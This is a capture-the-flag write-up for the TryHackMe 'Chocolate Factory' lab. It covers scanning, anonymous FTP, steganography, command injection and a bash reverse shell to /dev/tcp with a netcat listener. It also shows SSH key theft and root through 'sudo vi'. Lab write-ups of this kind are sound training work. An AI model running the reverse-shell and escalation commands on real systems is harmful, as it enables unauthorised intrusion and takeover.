# [Chocolate Factory][1]

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -sC <IP>`

Woah! A lot of open ports. Willy Wonka, I thought you have shy personality :wink:

Scanning for version tells they are just some TCP Ports.

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.3
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.150.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
| ssh-hostkey:
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_auth-owners: ERROR: Script execution failed (use -d to debug)
|_http-title: Site doesn't have a title (text/html).
100/tcp open  newacct?
| fingerprint-strings:
|   GenericLines, NULL:
|     "Welcome to chocolate room!!
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;)
|_    hope you wont drown Augustus"
|_auth-owners: ERROR: Script execution failed (use -d to debug)
106/tcp open  pop3pw?
```

Looks like we have three important ports open: `21, 22, 80`.

FTP Anonymous Login is available. Let's login and get the file mentioned under Nmap scan. To login - `ftp <IP>`. Username: `anonymous` and password is `anonymous` as well.



> To get the `gum_room.jpg`, type `get gum_room.jpg`.



> If you view the file, you won't find anything. Let's try Steganography. CMD - `steghide extract -sf gum_room.jpg`. When ask for password, press enter.

```
┌──(calmstorm㉿hackhunt)-[~]
└─$ steghide extract -sf gum_room.jpg                    
Enter passphrase:
wrote extracted data to "b64.txt".
```

Found a file `b64.txt`. Looks like Base64 ecoding. Let's decode it. CMD -> `base64 -d b64.txt > decoded_data.txt`

Important content from `decoded_data.txt`

```
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

> Looks like password file. Found a username `charlie`.

Let's work on the Website now. It seems like a login page.



Checking the source code...


> Found `Validate.php`. May help us bypass login, if we can understand how it is working.

Contents for validate.php -> `<script>alert('Incorrect Credentials');</script><script>window.location='index.html'</script>`.

Looks like half a code or No checks, just show invalid Credentials, huh!

Looking for any directories using `gobuster`. CMD -> `gobuster dir -u http://<IP> -w <wordlist> -x php,html`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.145.71
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2022/05/23 12:28:48 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/home.php             (Status: 200) [Size: 569]
/index.html           (Status: 200) [Size: 1466]
/index.html           (Status: 200) [Size: 1466]
/server-status        (Status: 403) [Size: 277]
===============================================================
2022/05/23 12:32:40 Finished
===============================================================
```

Checking `home.php`. Oh, found command injection.


> Tried `ls` command and got few results.

```
home.jpg home.php image.png index.html index.php.bak key_rev_key validate.php
```

*key_rev_key* seems interesting. Let's check the file `http://<IP>/key_rev_key`. Download the file. Tried -> `cat key_rev_key`

File looks like binary. If you go through the file you will find the part **Enter your name** and a ***key***.

Let's try to get Reverse Shell using Command Injection.
- Get your TryHackMe's IP.
- Start netcat. CMD -> `nc -lvnp 4444`
- Inject the command on website. CMD -> `bash -c 'exec bash -i &> /dev/tcp/<IP>/4444 <&1'`



> Check the `validate.php` now. We got the password.



> Looking around, found SSH Private key under `/home/charlie`, filename `teleport`.



> Access denied to *user.txt*.

```
cd /home/charlie
cat teleport
```

Copy the content of the teleport and save in your machine. Saved it as `charlie_id_rsa`.

To use, we need to give the correct permissions - `chmod 600 charlie_id_rsa`.

To connect, `ssh -i charlie_id_rsa charlie@<IP>`. Without password we were able to connect.

Let's try to read `user.txt`. CMD -> `cat /home/charlie/user.txt`.

For privilege escalation, let check if we can run something as admin using the command `sudo -l`.


> We have permission to run `vi`.

Check privilege escalation via `vi` on [GTFOBins][3]. Under **sudo** you will find a command -> `sudo vi -c ':!/bin/sh' /dev/null`

Enter the command and BAAM! ***ROOT ACCESS***.



Check for root flag in `/root` directory. Seems like python file. `cat root.py`.

Um! Need a Key. What about the key we got in `rev_key_rev`?!




[1]: https://tryhackme.com/room/chocolatefactory
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://gtfobins.github.io/gtfobins/vi/#sudo
